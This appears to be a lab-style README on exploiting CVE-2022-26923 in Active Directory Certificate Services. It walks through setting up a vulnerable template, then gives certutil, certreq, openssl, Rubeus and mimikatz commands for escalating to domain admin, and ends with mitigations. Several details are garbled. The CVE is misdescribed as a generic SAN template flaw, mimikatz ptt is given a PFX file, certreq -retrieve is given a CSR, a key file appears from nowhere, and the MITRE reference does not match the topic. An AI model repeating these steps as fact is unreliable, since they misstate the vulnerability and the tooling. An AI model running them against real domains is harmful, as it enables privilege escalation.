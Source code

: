 # Exploitation of CVE-2022-26923 - Active Directory Certificate Services Privilege Escalation

## Overview

CVE-2022-26923 is a privilege escalation vulnerability in Microsoft Active Directory Certificate Services (AD CS) that allows an attacker with low privileges to escalate to domain administrator if misconfigurations exist. This vulnerability arises due to improper authentication and authorization in the AD CS certificate enrollment process.

![image](./images/1.png)

## Vulnerability Details

- **CVE-ID**: CVE-2022-26923
- **Impact**: Privilege Escalation
- **Affected Services**: Active Directory Certificate Services (AD CS)
- **Exploitation Prerequisites**:
  - Attacker must have low-level domain user privileges.
  - Active Directory Certificate Services (AD CS) must be configured with misconfigured certificate templates.
  - The domain user must be able to enroll in a vulnerable certificate template.

## Lab Setup

To replicate the issue, we will set up a test environment with:

1. Windows Server (Domain Controller + AD CS)
2. Windows Client (Attacker Machine)
3. Kali Linux (Optional for enumeration)

### Steps to Set Up AD CS

1. Install **Active Directory Certificate Services** on a Windows Server.
2. Configure a vulnerable certificate template:
   - Open the **Certificate Authority Manager** (`certsrv.msc`).
   - Create a new template by duplicating an existing user template.
   - Ensure the template allows authentication but does not have sufficient identity verification.
   - Assign **Enroll** and **Auto-enroll** permissions to standard users.

## Exploitation Walkthrough

### Step 1: Enumerate AD CS

Use `certutil` to enumerate available certificate templates:

```powershell
certutil -TCAInfo
certutil -v -template
```

If a misconfigured template allows enrollment, proceed to the next step.

### Step 2: Request a Certificate

An attacker can request a certificate with the **Subject Alternative Name (SAN)** set to another user (e.g., a Domain Admin):

```powershell
certreq -new request.inf request.csr
```

where `request.inf` contains:

```
[NewRequest]
Subject = "CN=Attacker"
[Extensions]
2.5.29.17 = "{text}dns=admin.domain.local"
```

### Step 3: Retrieve the Issued Certificate

Once the request is submitted, retrieve the issued certificate:

```powershell
certreq -retrieve -config "CA_NAME" request.csr issued.cer
```

### Step 4: Use the Certificate for Authentication

Convert the certificate into a PFX file:

```powershell
openssl pkcs12 -export -out attack.pfx -inkey private.key -in issued.cer
```

Use the certificate for authentication with tools like Rubeus:

```powershell
Rubeus.exe asktgt /user:Administrator /certificate:attack.pfx
```

### Step 5: Escalate to Domain Admin

Once a valid TGT is obtained, use it to gain administrative access:

```powershell
mimikatz "kerberos::ptt attack.pfx"
dsquery user -name Administrator
```

## Mitigation Strategies

- **Review Certificate Templates**: Ensure that only authorized users have enrollment permissions.
- **Enable Strong Authentication**: Require smart card logon and enforce certificate-based authentication policies.
- **Monitor Certificate Enrollment**: Regularly audit certificate requests and issuance logs.
- **Patch Systems**: Apply Microsoft security updates to mitigate this vulnerability.

## Conclusion

CVE-2022-26923 highlights the dangers of misconfigured certificate templates in Active Directory Certificate Services. By exploiting improper authentication checks, attackers can escalate privileges to domain administrator, posing a significant security risk. Proper configuration and monitoring of certificate services can help prevent such attacks.

### References

- [Microsoft Security Advisory](https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2022-26923)
- [AD CS Misconfiguration Exploitation](https://attack.mitre.org/techniques/T1557/003/)


